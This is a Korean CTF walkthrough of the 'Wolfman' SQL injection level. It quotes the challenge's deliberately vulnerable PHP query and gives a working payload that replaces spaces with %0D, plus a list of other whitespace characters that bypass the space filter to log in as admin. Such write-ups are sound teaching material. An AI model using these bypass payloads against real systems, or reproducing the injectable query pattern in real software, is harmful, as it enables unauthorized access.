


# Level 5 - Wolfman

## 문제



## 문제 의도

- php 소스를 읽을 줄 아는가?
- 공백 문자를 사용하지 않고 SQLi를 수행할 수 있는가?

## 코드 분석

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~");
  /* 공백문자(%20)를 필터링한걸 확인할 수 있다. */
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";
  if($result['id'] == 'admin') solve("wolfman");
  highlight_file(__FILE__);
?>
```

## 문제 풀이

공백을 쓸 수 없는 것 외에는 할 수 있는 게 많았다. 찾아보니 SQL에서 공백을 대신할 만한 문자가 많았는데, 그 중 내가 채용한 건 0x0D로 원래는 carriage return인데 띄어쓰기 대신으로 사용하게 되었다.
원래 **pw=' or 1=1 and id='admin'-- -** 를 사용했다면 공백 대신 안에 %0D를 사용해서
**pw='%0Dor%0D1=1%0Dand%0Did='admin'--%0D-** 를 사용하면 된다.



### 그 외에도 쓸수 있는 문자

먹히는건 Italic Bold로 표시했다.

- %20 = Space
- **_%09 = Horizontal Tab_**
- **_%0A = New Line_**
- **_%0B = Vertical Tab_** (페이지 쿼리에는 표현이 안되지만 잘됨)
- **_%0C = New Page_** (얘도 페이지 쿼리에는 표현이 안되지만 잘됨)
- **_%0D = Carriage Return_**
- %A0 = No-Break Space (&nbsp;)

___

## Reference

아스키 코드 테이블 : [AsciiTable.com](http://www.asciitable.com/), [lwp.interglacial.com](http://lwp.interglacial.com/appf_01.htm)

SQL 필터 우회 : [Reiners' Weblog](https://websec.wordpress.com/tag/sql-filter-bypass/)